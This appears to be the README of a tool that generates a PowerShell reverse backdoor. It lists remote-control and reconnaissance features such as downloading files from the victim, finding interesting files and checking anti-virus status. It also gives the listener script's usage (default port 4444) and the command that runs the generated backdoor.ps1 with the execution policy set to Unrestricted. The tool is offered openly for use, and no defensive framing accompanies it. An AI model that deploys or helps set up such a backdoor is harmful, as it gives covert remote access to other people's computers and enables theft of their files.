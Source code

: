 # powershell-backdoor
A Powershell Reverse Backdoor

# Features / To Do
## Features 
* Download Files from remote system
* Fetch target computers public IP address
* List local users
* Find Intresting Files
* Get OS Information
* Get BIOS Information
* Get Anti-Virus Status
* Get Active TCP Clients
* Checks for common pentesting software installed
## To Do 
* Find Writeable Directories
* Get Windows Update Status

# Setup
Don't change the code inside template.ps1, instead run listen.py
```
usage: listen.py [-h] [--ip-address IP_ADDRESS] [--port PORT] [--out-file OUT_FILE] [--verbose]

Powershell Backdoor

options:
  -h, --help            show this help message and exit
  --ip-address IP_ADDRESS, -I IP_ADDRESS
                        IP Address to bind to default: xxx.xxx.x.xx (your local ip)
  --port PORT, -p PORT  Port to connect over default:4444
  --out-file OUT_FILE, -O OUT_FILE
                        Generated backdoor filename
  --verbose             Show verbose output
```
No arguments are required, backdoor.ps1 will be dropped in the current working directory.

# Execution
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(drew㉿kali)-[/home/drew/Documents]
└─PS> ./backdoor.ps1
```
